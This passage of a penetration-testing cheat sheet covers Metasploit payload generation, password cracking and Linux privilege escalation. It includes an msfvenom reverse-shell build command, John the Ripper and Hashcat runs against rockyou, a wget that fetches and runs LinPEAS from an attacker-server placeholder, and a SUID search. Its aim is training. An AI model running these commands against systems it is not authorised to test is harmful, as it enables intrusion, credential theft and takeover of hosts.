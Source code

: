 Command Example:

bash

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.x.x.x LPORT=4444 -f exe > shell.exe

Methodology and Tactics:
The use of staged and non-staged payloads in Metasploit is a tactical decision based on the environment being exploited. Staged payloads are useful for bypassing network restrictions and reducing the footprint of the initial payload, making it harder to detect. Non-staged payloads, on the other hand, are simpler and can be more reliable in certain situations. The tactic is to choose the most appropriate payload for the given scenario, ensuring successful exploitation and control over the target system.
12. Cracking Passwords

Command Examples:

    John the Ripper:

    bash

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Hashcat:

bash

    hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt

Methodology and Tactics:
Password cracking is a post-exploitation tactic used to gain further access to systems by decrypting hashed passwords. The methodology involves using tools like John the Ripper or Hashcat to perform dictionary or brute-force attacks on password hashes. The tactic is to exploit weak or reused passwords that could grant access to additional systems or sensitive data, allowing the attacker to escalate their privileges within the network.
13. Privilege Escalation Techniques

Tools and Commands:

    LinPEAS: A script to automate the enumeration process for potential privilege escalation paths.

    bash

wget http://attack_server_ip/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

SUID Exploitation:

bash

    find / -type f -perm -4000 2>/dev/null

Methodology and Tactics:
Privilege escalation involves exploiting vulnerabilities or misconfigurations to gain higher privileges within a system. The methodology often starts with enumeration, using tools like LinPEAS to automate the discovery of potential weaknesses. SUID exploitation targets files with the SUID bit set, which, if misconfigured, can allow unauthorized users to execute files with elevated privileges. The tactic is to methodically search for and exploit these opportunities to gain root or administrative access, thereby gaining control over the entire system.
14. File Transfer Techniques
